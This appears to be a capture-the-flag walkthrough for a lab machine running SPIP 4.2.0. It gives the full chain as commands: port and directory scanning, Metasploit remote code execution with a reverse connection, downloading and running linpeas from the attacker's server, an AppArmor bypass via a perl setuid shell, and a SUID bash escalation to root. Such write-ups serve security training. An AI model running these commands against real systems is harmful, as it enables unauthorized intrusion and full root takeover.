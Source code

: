 
STEP -1

Find open service and ports:
```
nmap -A $ip -v -T5
result: 22,80
```


Find directories:
```
gobuster dir -u http://$ip -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100
result: /images, /spip
```


view source code:
```
http://url/imagers
[http://url/spip](http://url/spip)  -- spip 4.2.0
```


exploit spip version:
```
msfconsole -q
search spip
use multi/http/spip_rce_form
set rhosts $target_ip
set rport 80
set TARGETURI  /spip
set lhost $your_ip
exploit
```


STEP -2:

Find file and directories that your user has READ, WRITE and EXECUTABLE:
```
find / -type d -user think -writable 2>/dev/null
```

cd run/user/1000

Start a http python server in your device and send it target device
wget [http://$your_systemIP:port/linpeas.sh](http://$your_systemIP:port/linpeas.sh)
chmod +x linpeas.sh
./linpeas.sh

═══════╣ Files with Interesting Permissions╠═════════════════                                  
                                                                                      
-rwsr-sr-x 1 root root 17K Nov 14  2023 /usr/sbin/run_container (Unknown SUID binary!)


Bypass Apparmor:
Open browser and search – apparmore bypass hacktricks
```
echo '#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh"' > run/user/1000/test.pl
chmod +x run/user/1000/test.pl
run/user/1000/test.pl
```

STEP -3:

```
cd /opt
ls -la
echo "chmod +xs /bin/bash" >> run_container.sh
run_container

ls -la /bin/bash   --- check user or group become “root” or not
/bin/bash -p
```

